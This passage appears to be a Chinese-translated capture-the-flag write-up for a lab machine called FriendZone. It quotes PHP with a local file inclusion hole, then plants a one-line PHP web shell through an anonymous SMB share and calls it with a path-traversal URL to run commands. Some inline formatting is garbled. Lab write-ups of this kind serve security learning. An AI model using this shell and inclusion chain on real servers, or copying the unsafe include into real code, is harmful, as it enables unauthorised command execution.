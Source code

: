     if ($auth === "e7749d0f4b4da5d03e6e9196fd1d18f1"){
     echo "<br><br><br>";
    
    echo "<center><h2>Smart photo script for friendzone corp !</h2></center>";
    echo "<center><h3>* Note : we are dealing with a beginner php developer and the application is not tested yet !</h3></center>";
    
    if(!isset($_GET["image_id"])){
      echo "<br><br>";
      echo "<center><p>image_name param is missed !</p></center>";
      echo "<center><p>please enter it to show the image</p></center>";
      echo "<center><p>default is image_id=a.jpg&pagename=timestamp</p></center>";
     }else{
     $image = $_GET["image_id"];
     echo "<center><img src='images/$image'></center>";
    
     echo "<center><h1>Something went worng ! , the script include wrong param !</h1></center>";
     include($_GET["pagename"].".php");
     //echo $_GET["pagename"];
     }
    }else{
    echo "<center><p>You can't see the content ! , please login !</center></p>";
    }
    ?>
    

我也可以获得其他页面。例如，如果我得到，我可以看到它实际上是一个虚假的上传页面：`upload.php`

    <?php
    
    // not finished yet -- friendzone admin !
    
    if(isset($_POST["image"])){
    
    echo "Uploaded successfully !<br>";
    echo time()+3600;
    }else{
    
    echo "WHAT ARE YOU TRYING TO DO HOOOOOOMAN !";
    
    }
    
    ?>
    

### 网络外壳

我想使用此LFI来包含一个网络外壳，以便我可以运行命令。我将使用我的 smb 访问权限将一个简单的 php 命令 shell 放入开发共享中，它告诉我是 .`nmap``/etc/Development`

    root@kali# cat cmd.php 
    <?php system($_REQUEST['cmd']); ?>
    
    root@kali# smbclient -N //10.10.10.123/Development -c 'put cmd.php 0xdf.php'
    putting file cmd.php as \0xdf.php (0.6 kb/s) (average 0.6 kb/s)
    

现在，在访问时，我得到输出：`https://administrator1.friendzone.red/dashboard.php?image_id=&pagename=../../../etc/Development/0xdf&cmd=id`
